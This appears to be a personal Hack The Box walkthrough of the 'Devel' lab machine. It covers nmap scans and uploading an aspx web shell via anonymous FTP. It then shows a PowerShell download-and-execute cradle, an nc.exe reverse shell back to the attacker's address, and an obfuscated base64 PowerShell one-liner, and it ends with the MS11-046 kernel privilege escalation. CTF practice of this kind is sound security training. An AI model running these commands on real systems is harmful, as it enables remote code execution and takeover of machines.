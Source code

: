+++

title = "Devel"

+++



```
nmap -sT -p- -Pn -T5 nmap/initial 10.10.10.5
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-23 14:57 EST
Unable to split netmask from target expression: "nmap/initial"
Nmap scan report for 10.10.10.5
Host is up (0.044s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 75.84 seconds
```

```
nmap -sV -sC -p21,80 nmap/http-ftp 10.10.10.5                                                   
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-23 15:01 EST
Unable to split netmask from target expression: "nmap/http-ftp"
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan                                                      
Service scan Timing: About 50.00% done; ETC: 15:01 (0:00:06 remaining)                                                           
Nmap scan report for 10.10.10.5
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 02-27-19  12:20AM                 2788 getfuckd.aspx
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

filtered ports 

```

```

FTP

ftp as anonymous

```
ftp 10.10.10.5
```

![ftp](C:\Users\charl\OneDrive\Pictures\hackthebox\devel\ftp.PNG)

![ftp2](C:\Users\charl\OneDrive\Pictures\hackthebox\devel\ftp2.PNG)

as you can see i uploaded a asp & an aspx. the former did not work out for me. the later opened a shell. 

![aspx-shell](C:\Users\charl\OneDrive\Pictures\hackthebox\devel\aspx-shell.PNG)

send it over to burp turn on intercept. 

![aspx-shell2](C:\Users\charl\OneDrive\Pictures\hackthebox\devel\aspx-shell2.PNG)

Setup up python http server & NetCat listener. Then run powershell iex

```
python -m http.server 80
```

```
nc -lvnp 443
```

IEX invoke

be sure to url encode this string when using burp no need to encode when using the webpage.

```
IEX(New-Object Net.WebClient).downloadstring(http://10.10.14.49/Invoke-PowerShellTcp.ps1)
```

![invoke](../optimum/invoke.PNG)

NC.EXE

this one tricky i tried to be cool and run it form the nishang shell and cmd.aspx but i keep running into error. i've run it with c:\windows\syswow64\cmd.exe. anywho the only way i got this to work was executing this from the smbshare. since the smb share isn't exposed to the outside. you could run this form inside nishang or the webportal. 

```
nc -lvnp 1920
```

```
locate smbserver.py
mkdir smb <=== put stuff here
./smbserver.py share smb
\\10.10.14.49\share\nc.exe -e cmd.exe 10.10.14.49 1920
```

SHELL

```
whoami			output 		iis apppool\web
```

![powershell-shell](C:\Users\charl\OneDrive\Pictures\hackthebox\devel\powershell-shell.PNG)

No, idea what to do here going to start running various powershell scripts to see if i can elevate my privledges.

```
c:\windows\system32\powershell -NoE -Nop -NonI -ExecutionPolicy Bypass -C "sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"


```

IIS WEB ROOT DIRECTORY

```
C:\inetpub\wwwroot
```

Enumeration

Windows version

```
systeminfo
```



```
systeminfo                             
                                                    
Host Name:                 DEVEL               
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ??
System Boot Time:          27/2/2019, 6:48:35 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 79 Stepping 1 GenuineIntel ~2400 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 641 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.267 MB
Virtual Memory: In Use:    781 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5

```

Watson

Read oxdf guide on setting up watson. Nishang shells suck. Running things inside of powershell kind of sucks. Execute this using the smbshare. 

```
\\10.10.14.49\share\Watson.exe
```

```
[*] OS Build number: 7600
 [*] CPU Address Width: 32
 [*] Process IntPtr Size: 4
 [*] Using Windows path: C:\WINDOWS\System32

  [*] Appears vulnerable to MS10-073
   [>] Description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel.                 
   [>] Exploit: https://www.exploit-db.com/exploits/36327/
   [>] Notes: None.

  [*] Appears vulnerable to MS10-092
   [>] Description: When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with.Als
o, In a default configuration, normal users can read and write the task files that they have created.By modifying the task file and creating a CRC32 collision
, an attacker can execute arbitrary commands with SYSTEM privileges.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_092_schelevator.rb                            
   [>] Notes: None.

  [*] Appears vulnerable to MS11-046
   [>] Description: The Ancillary Function Driver (AFD) in afd.sys does not properly validate user-mode input, which allows local users to elevate privileges.
   [>] Exploit: https://www.exploit-db.com/exploits/40564/
   [>] Notes: None.

  [*] Appears vulnerable to MS12-042
   [>] Description: An EoP exists due to the way the Windows User Mode Scheduler handles system requests, which can be exploited to execute arbitrary code in
kernel mode.
   [>] Exploit: https://www.exploit-db.com/exploits/20861/
   [>] Notes: None.

  [*] Appears vulnerable to MS13-005
   [>] Description: Due to a problem with isolating window broadcast messages in the Windows kernel, an attacker can broadcast commands from a lower Integrity
 Level process to a higher Integrity Level process, thereby effecting a privilege escalation.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_005_hwnd_broadcast.rb
   [>] Notes: None.
```

 MS11-046

be sure to run this in a netcat.exe shell and not a nishang shell.. 

```
google windows-kernel-exploits
locate MS11-046
\\10.10.14.49\share\MS11-046.exe
```

![victory](victory.PNG)